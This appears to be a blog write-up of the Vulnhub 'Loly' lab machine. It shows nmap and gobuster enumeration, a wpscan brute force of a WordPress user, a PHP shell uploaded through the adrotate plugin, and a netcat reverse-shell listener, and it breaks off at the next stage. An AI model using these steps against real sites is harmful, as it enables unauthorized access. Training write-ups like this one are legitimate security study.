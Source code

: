 ```yaml
---
title: Vulnhub - Loly
description: My writeup on Loly box.
categories:
 - vulnhub
tags: vulnhub wordpress gobuster wpscan
---
```


![](https://mir-s3-cdn-cf.behance.net/project_modules/max_1200/ad961968970591.5b734bd15bb90.png)

You can find the machine there > [Loly](https://www.vulnhub.com/entry/loly-1,538/){:target="_blank"}

## Summary

This machine is an easy one, starting off we can find a wordpress installation and we gain access to it by running a brute force attack on the user. Shell uploading was a bit tricky, because common ways were blocked. After privilege escalation to first user was pretty easy we just have to look at wp-config file a really common method & the root one is based :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.15
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:22 EEST
Nmap scan report for loly.lc (192.168.1.15)
Host is up (0.0013s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:C1:62:D5 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.26 seconds
$ nmap -p 80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:23 EEST
Nmap scan report for loly.lc (192.168.1.15)
Host is up (0.00038s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
```

Visiting the web page, is just the default nginx page. No `/robots.txt` and such stuff so let's move on and run `gobuster`.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/wordpress (Status: 301)
```

`/wordpress` isn't loading properly, checking the html code we can see a `dns-prefetch` and a domain name that's probably a virtual host let's add it to `/etc/hosts`.

```html
<link rel='dns-prefetch' href='//loly.lc'/>
```

```
$ nano /etc/hosts
$ cat /etc/hosts
..data..
192.168.1.15    loly.lc
```

Now we can see the wordpress site, let's run a `wpscan` on it to detect plugins/users.

```
$ wpscan --no-banner --url http://loly.lc/wordpress/ -e ap,u

..data..

[i] Plugin(s) Identified:

[+] adrotate
 | Location: http://loly.lc/wordpress/wp-content/plugins/adrotate/
 | Last Updated: 2020-09-08T17:49:00.000Z
 | [!] The version is out of date, the latest version is 5.8.8
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
 ```

Interesting, without wasting more time let's run a brute force attack on loly user.

```
$ wpscan --no-banner --url http://loly.lc/wordpress/ -U loly -P /usr/share/wordlists/rockyou.txt 

..data..

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando                                                                                                                                                             
Trying loly / corazon Time: 00:00:04 <==============================================================================================================> (175 / 175) 100.00% Time: 00:00:04

[!] Valid Combinations Found:
 | Username: loly, Password: fernando
```

## Shell as www-data

Perfect now we can login in, admin panel is under `/wp-admin`. Here i got stuck for couple of minutes, tried ton of stuff but no luck spawning a shell. Anyway then i remembered the plugin `adrotate` i enumerated a bit and i found a way to upload a shell & execute it! Follow my steps:

1) Zip your shell!

```
$ zip shell.zip shell.php 
  adding: shell.php (deflated 59%)
```

2) Upload it

![](https://i.imgur.com/A6d1HeF.png)

![](https://i.imgur.com/QS3w5We.png)

3) Execute it

Enumerating the settings of the plugin i found out the where it saves the files:

![](https://i.imgur.com/NFf6z9B.png)

```
$ curl http://loly.lc/wordpress/wp-content/banners/shell.php
```

```
$ nc -lvp 6666
listening on [any] 6666 ...
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as loly

